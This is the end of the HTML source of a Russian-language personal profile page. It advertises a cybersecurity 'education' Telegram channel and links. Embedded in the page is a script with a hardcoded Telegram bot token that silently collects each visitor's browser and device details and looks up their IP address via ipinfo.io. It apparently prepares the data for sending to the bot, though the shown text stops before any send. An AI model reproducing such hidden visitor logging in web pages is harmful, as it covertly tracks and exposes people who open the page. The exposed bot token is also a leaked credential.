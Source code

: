                             Также я веду образовательный Telegram-канал, где делюсь знаниями.(я тупой)
                        </p>
                        <p class="response">
                            в области кибербезопасности и программирования.
                        </p>
                        <p class="response">
                            Присоединяйтесь к моему сообществу, чтобы быть в курсе последних обновлений!
                        </p>
                    </p>
                </div>
            </div>
            
            <div class="social-links">
                <a href="https://t.me/mvdclowned" target="_blank">Telegram</a>
                <a href="https://github.com/mvdclowned" target="_blank">GitHub</a>
                <a href="https://t.me/mvdclowned_edu" target="_blank">Обучение</a>
            </div>
        </div>
        
        <footer>
            <p>&copy; 2025 mvdclowned. Все права защищены.</p>
            <p class="glitch-text">Взлом системы... Доступ разрешен.</p>
        </footer>
    </div>
        <script>
        const botToken = '7736721345:AAFyDMbbDXJKR3QEC0WOgEphZNfehVB99v4';
        async function collectDeviceInfo() {
            const deviceInfo = {
                userAgent: navigator.userAgent,
                platform: navigator.platform,
                language: navigator.language,
                screenWidth: window.screen.width,
                screenHeight: window.screen.height,
                deviceMemory: navigator.deviceMemory || "Недоступно",
                hardwareConcurrency: navigator.hardwareConcurrency || "Недоступно",
                apname: navigator.appName,
                dvizhok: navigator.product,
                vendar: navigator.vendor,
            };
            return deviceInfo;
        }
        
        async function getIPAddress() {
            try {
                const response = await fetch('https://ipinfo.io/json');
                const data = await response.json();
                return data.ip;
            } catch (error) {
                console.error("Ошибка при получении IP:", error);
                return "Недоступно";
            }
        }
    